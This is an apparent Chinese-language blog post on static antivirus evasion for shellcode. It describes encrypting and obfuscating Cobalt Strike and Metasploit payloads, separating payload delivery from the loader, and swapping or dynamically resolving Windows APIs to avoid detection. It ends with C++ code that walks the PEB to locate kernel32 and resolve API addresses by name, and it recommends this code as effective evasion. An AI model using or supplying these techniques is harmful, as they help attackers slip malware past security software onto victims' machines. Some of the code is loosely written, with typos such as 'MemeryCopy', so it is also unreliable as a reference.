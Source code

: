 ```yaml
---

layout: default

---
```




# 静态免杀

本文章还在不断完善中，如有错误或建议请不吝指教。

## 杀软查杀方式

其次在做免杀之前，我们必须得了解杀软具体是如何查杀我们的恶意软件的。了解了相应的查杀规则以及方式，我们才能更好的去针对性的绕过以及规避杀软的检测。

对于静态查杀来说，杀软主要识别的就是文件的特征码、敏感函数调用、以及特殊的操作（如循环异或）。因为暂时还没有对杀软查杀规则进行系统性的分析研究，大体的概念与方式都是来源于网上前人的总结。

## 针对性处理

个人认为免杀可以基于三个维度来做：

1. shellcode生成
2. shellcode传输
3. shellcode执行

我们可以针对每个维度来针对性的进行处理。首先就是shellcode的生成，现在流行的渗透框架CS、MSF以及一些知名远控生成的shellcode特征已经是被杀软盯得死死的了，如果不进行修改/加密/混淆等处理，基本就属于见光死，见面就得挨杀。

针对shellcode做处理有大体上有以下几种方式：

1. 直接修改shellcode字节码，加入无效指令/修改shellcode执行逻辑等来修改shellcode的特征码，这种方式属于超出我能力范围之外了，放弃。

2. 对shellcode进行加密混淆处理，常见的如XOR/base64/AES/DES等方式加密shellcode、按照一定规则插入无效字节、字符偏移表等。

   

其次shellcode的传输，也就是shellcode如何到达目标机器，比如直接在代码中硬编码后编译成单文件exe或者dll形式，通过网络协议获取远程shellcode、通过隐写术等方式写入其他文件等方式。相对来说通过网路协议传输或者额外文件中读取（也就是常说的分离免杀）会比单文件形式容易一点。因为上一步会对shellcode做相应的加密混淆等处理，这一步问题不大。

最后就是shellcode的执行了，一段shellcode想要在内存中执行的话需要完成以下步骤：

1. 创建/获取一段可读写执行的内存空间
2. 将shellcode写入这块内存空间
3. 将程序执行的流程指向这块内存空间

针对这3个步骤常见的通过windows API来执行如：

```c++
VirtualAlloc
MemeryCopy
CreateThread
```

以上3个API可以通过替换等效的其他API函数，比如VirtualAlloc 替换为HeapCreate/HeapAlloc，MemeryCopy替换为memcpy，CreateThread替换成指针等来组合使用。但是这种方式免杀效果一般，由于API基本已经被杀软监控的死死的了，我们可以通过动态调用的方式来调用API执行

```c++
LoadLibrary/GetProcAddress
GetModuleHandle/GetProcAddress
```

通过以上API组合可以实现动态获取相应的API来执行shellcode，但是由于还是调用了部分API，所以效果也不是很好。下面我们就可以通过动态获取相应dll的基址，来动态获取相应API的地址来调用相应的API：

```c++
//以下代码来自于看雪论坛 

DWORD _getKernelBase()
{
    DWORD dwPEB;
    DWORD dwLDR;
    DWORD dwInitList;
    DWORD dwDllBase;//当前地址
    PIMAGE_DOS_HEADER pImageDosHeader;//指向DOS头的指针
    PIMAGE_NT_HEADERS pImageNtHeaders;//指向NT头的指针
    DWORD dwVirtualAddress;//导出表偏移地址
    PIMAGE_EXPORT_DIRECTORY pImageExportDirectory;//指向导出表的指针
    PTCHAR lpName;//指向dll名字的指针
    TCHAR szKernel32[] = TEXT("KERNEL32.dll");

    __asm
    {
        mov eax, FS: [0x30]//获取PEB所在地址
        mov dwPEB, eax
    }

    dwLDR = *(PDWORD)(dwPEB + 0xc);//获取PEB_LDR_DATA 结构指针
    dwInitList = *(PDWORD)(dwLDR + 0x1c);//获取InInitializationOrderModuleList 链表头
//第一个LDR_MODULE节点InInitializationOrderModuleList成员的指针

    for (;
        dwDllBase = *(PDWORD)(dwInitList + 8);//结构偏移0x8处存放模块基址
        dwInitList = *(PDWORD)dwInitList//结构偏移0处存放下一模块结构的指针
    )
    {
        pImageDosHeader = (PIMAGE_DOS_HEADER)dwDllBase;
        pImageNtHeaders = (PIMAGE_NT_HEADERS)(dwDllBase + pImageDosHeader->e_lfanew);
        dwVirtualAddress = pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress;//导出表偏移
        pImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(dwDllBase + dwVirtualAddress);//导出表地址
        lpName = (PTCHAR)(dwDllBase + pImageExportDirectory->Name);//dll名字

        if (strlen(lpName) == 0xc && !strcmp(lpName, szKernel32))//判断是否为“KERNEL32.dll”
        {
            return dwDllBase;
        }
    }
    return 0;
}

/*
获取指定字符串的API函数的调用地址
入口参数：_hModule为动态链接库的基址
_lpApi为API函数名的首址
出口参数：eax为函数在虚拟地址空间中的真实地址
*/

DWORD _getApi(DWORD _hModule, PTCHAR _lpApi)
{
    DWORD i;
    DWORD dwLen;
    PIMAGE_DOS_HEADER pImageDosHeader;//指向DOS头的指针
    PIMAGE_NT_HEADERS pImageNtHeaders;//指向NT头的指针
    DWORD dwVirtualAddress;//导出表偏移地址
    PIMAGE_EXPORT_DIRECTORY pImageExportDirectory;//指向导出表的指针
    TCHAR** lpAddressOfNames;
    PWORD lpAddressOfNameOrdinals;//计算API字符串的长度
    for (i = 0; _lpApi[i]; ++i);
    dwLen = i;

    pImageDosHeader = (PIMAGE_DOS_HEADER)_hModule;
    pImageNtHeaders = (PIMAGE_NT_HEADERS)(_hModule + pImageDosHeader->e_lfanew);
    dwVirtualAddress = pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress;//导出表偏移
    pImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(_hModule + dwVirtualAddress);//导出表地址
    lpAddressOfNames = (TCHAR**)(_hModule + pImageExportDirectory->AddressOfNames);//按名字导出函数列表
    for (i = 0; _hModule + lpAddressOfNames[i]; ++i)
    {
        if (strlen(_hModule + lpAddressOfNames[i]) == dwLen &&
!strcmp(_hModule + lpAddressOfNames[i], _lpApi))//判断是否为_lpApi
        {
            lpAddressOfNameOrdinals = (PWORD)(_hModule + pImageExportDirectory->AddressOfNameOrdinals);//按名字导出函数索引列表

            return _hModule + ((PDWORD)(_hModule + pImageExportDirectory->AddressOfFunctions))
[lpAddressOfNameOrdinals[i]];//根据函数索引找到函数地址

        }
    }
    return 0;
}
```

以上代码通过动态获取dll基址来动态调用API函数，免杀效果不错，这种方式还可以参考 《WindowsPE权威指南》的第11章动态加载技术。



## 参考链接

* [shellcode execution techniques](https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
* 《WindowsPE权威指南》第11章

[back](../)